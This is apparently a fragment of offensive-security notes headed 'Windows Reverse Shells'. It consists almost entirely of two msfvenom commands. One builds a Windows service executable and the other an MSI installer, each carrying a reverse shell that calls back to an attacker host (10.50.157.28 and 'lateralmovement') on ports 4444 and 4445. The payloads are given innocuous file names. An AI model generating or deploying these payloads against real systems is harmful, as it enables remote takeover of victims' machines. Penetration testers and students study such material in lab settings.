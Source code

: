 ### Windows Reverse Shells
```bash
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.157.28 LPORT=4444 -o gingerlyservice.exe
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```
